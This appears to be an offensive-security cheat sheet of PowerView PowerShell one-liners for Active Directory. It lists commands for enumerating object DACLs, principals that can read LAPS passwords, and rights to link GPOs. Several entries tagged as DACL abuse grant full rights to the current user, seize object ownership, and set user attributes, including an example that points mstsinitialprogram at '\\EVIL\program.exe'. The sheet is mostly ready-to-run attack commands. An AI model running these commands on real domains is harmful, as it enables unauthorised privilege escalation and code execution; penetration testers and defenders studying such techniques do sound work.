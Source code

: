 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## DACL - Get ACLs of an object by an object
target can be:
    - SamAccountName
    - DistinguishedName
    - SID
    - GUID
    - *
```powershell
$sid = ConvertTo-SID -Name <source>; Get-DomainObjectAcl -Identity <target> -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $sid }
```

## DACL - Get ACLs of an object 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## DACL - Find all domain user DACL
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## DACL - Add GenericAll to target for user
#cat/ATTACK/DACL-ABUSE
```powershell
Add-DomainObjectAcl -TargetIdentity <ldap_path> -PrincipalIdentity <current_user> -Rights All
```

## DACL - Set the owner 
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObjectOwner -Identity <target_object> -OwnerIdentity <user>
```

## DACL - set the specified property for the given user identity
@{'mstsinitialprogram'='\\EVIL\program.exe'}
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObject <user> -Set @{'<property>'='<value>'} -Verbose
```

## DACL - Enumerate Principals that can read LAPS
#cat/RECON/DACL
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```

## DACL - link GPO on site
```powershell
Get-DomainSite -Properties distinguishedname | foreach { Get-DomainObjectAcl -SearchBase $_.distinguishedname -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List }
```

## DACL - link GPO on OU
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List
```

## DACL - link GPO on Domain
```powershell
Get-DomainObjectAcl -SearchScope Base -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List
```